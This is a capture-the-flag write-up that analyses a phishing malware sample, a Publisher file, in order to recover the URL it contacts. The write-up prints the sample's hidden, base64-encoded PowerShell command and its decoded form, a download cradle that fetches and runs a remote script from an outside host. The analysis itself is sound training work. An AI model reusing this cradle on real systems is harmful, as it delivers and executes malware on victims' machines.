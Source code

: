 # Publish3r - 225pts
> We believe we found a malicious file on someone's workstation. Judging by looking at it, the file likely came from a phishing email. Anyways, we'd like you to analyze the sample, so we can see what would have happened if it executed successfully. That way we can hunt for signs of it across the enterprise. Your flag will be the URL that the malware is trying to reach out to! Can you do it? Format: MetaCTF{http://.........} Note: We've put the actual file in an encrypted 7z so your browser doesn't complain when downloading it (and our site doesn't get flagged as malware). The password is metactf
<hr>

After unzipping the 7zip archive, we are presented `Publish3r.pub`. 

Let's take a look at the file contents using `strings Publish3r.pub`. If we go through all the strings, one stands out from the rest:
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -exec Bypass -windowstyle hidden -enc SQBFAHgAIAAoACgAbgBFAFcALQBPAEIASgBlAEMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACgAIgBoAHQAdABwADoALwAvADEAMwAuADMANwAuADEAMAAuADEAMAA6ADQANAA0ADMALwBkAG8AYwAvAHAAYQB5AGwAbwBhAGQALgBwAHMAMQAiACkAKQApAA==
```

Here we have a PowerShell script. with the actual script itself being base64 encoded. Let's decode this using 
```shell
echo "SQBFAHgAIAAoACgAbgBFAFcALQBPAEIASgBlAEMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACgAIgBoAHQAdABwADoALwAvADEAMwAuADMANwAuADEAMAAuADEAMAA6ADQANAA0ADMALwBkAG8AYwAvAHAAYQB5AGwAbwBhAGQALgBwAHMAMQAiACkAKQApAA==" | base64 --decode
```

And we can see the actual PowerShell script being executed:
```powershell
IEx ((nEW-OBJeCt net.webclient).downloadstring(("http://13.37.10.10:4443/doc/payload.ps1")))
```


